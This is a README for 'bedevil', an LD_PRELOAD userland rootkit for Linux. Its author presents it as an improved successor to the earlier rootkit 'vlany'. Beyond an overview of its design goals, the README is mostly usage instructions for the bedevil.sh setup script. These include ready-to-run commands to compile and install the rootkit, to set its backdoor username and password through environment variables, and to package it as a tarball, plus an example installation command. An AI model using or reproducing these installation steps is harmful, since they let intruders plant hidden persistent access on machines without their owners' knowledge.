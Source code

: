 # bedevil

<img src=https://i.imgur.com/PyO00vy.png alt="icon" />

</br>

 * Based on my other rootkit, [vlany](https://github.com/mempodippy/vlany)
 * bedevil is designed to be more robust, faster and efficient than vlany.

## Overview
 * This is an LD_PRELOAD rootkit. Therefore, this rootkit runs in userland.
 * During the creation of this rootkit I had some goals in mind.
   * Tidy up previously existing aspects of precursor (LD_PRELOAD) rootkits.
   * Fix outstanding issues. (from vlany)
   * Create a more manageable & _robust_ system of rootkit functionalities.
   * Working on anything in vlany just felt like a huge mess, I grew to hate this. I knew it could be better...
 * The only dependency inherently required is bash, for running all of the setup scripts.
   * This won't be the case for much longer...
 * When it comes to actual rootkit dependencies, there are only a few.
   * Most will already be installed.
   * Those that aren't can be installed with the available script.


<hr>

## bedevil.sh
### Usage

<img src=https://i.imgur.com/s9VloGH.png alt="bedevil.sh script output"/>

 * __The order in which you pass flags to this script are essential.__

#### Usage examples
 * *Compile only:* `./bedevil.sh -dc` (compile the rootkit in your cwd)  
 * *Changing values (example):* `BD_UNAME=my_uname BD_PWD=my_pwd ./bedevil.sh -dc`  
 * *Full installation:* `./bedevil.sh -ti` (will ask what you want to enable/disable then launch installation)
 * *Mimic installation:* `LDSO_PRELOAD=/tmp/fakepreload ./bedevil.sh -i` (mimic rootkit installation/setup without preloading the rootkit)
 * **Compressing include directory & using resulting tarball**:
     * Compressing: `BD_UNAME=myuname BD_PWD=mypassword ... ./bedevil.sh -vzd`
     * Using tarball: `TARBALL=./pathto.tar.gz ./bedevil.sh ...`
     * i.e.: `TARBALL=./pathto.tar.gz ./bedevil.sh -i/-c`

<hr>

## Example installation
 * In this example, the command I issued was
   * `BD_UNAME=sexlovegod ./bedevil.sh -i`

